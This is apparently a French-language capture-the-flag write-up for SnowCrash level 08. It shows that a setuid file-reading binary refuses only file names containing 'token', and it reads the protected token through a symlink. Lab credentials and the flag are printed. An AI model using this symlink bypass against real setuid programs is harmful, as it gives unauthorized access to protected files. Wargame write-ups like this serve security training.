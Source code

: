 # LEVEL 08

**LOGIN: level08**

**PASSWORD: level08**

 ----
 
 ```
 ls -l ; echo ; file level08
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xbe40aba63b7faec62e9414be1b639f394098532f, not stripped
```
```
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
level08@SnowCrash:~$ echo toto > test
level08@SnowCrash:~$ ./level08 test
toto

```

le binaire `level08` permet de lire le contenu d'un fichier, mais il y'a une sécurité protegeant le fichier `token`

```
ltrace ./level08 token 
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                              = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)          = 27
exit(1 <unfinished ...>
```

Apparement un simple `strstr` sur le nom du fichier. 

```
level08@SnowCrash:~$ ln -s token exploit
level08@SnowCrash:~$ ./level08 exploit
quif5eloekouj29ke0vouxean
```

**TOKEN: quif5eloekouj29ke0vouxean**



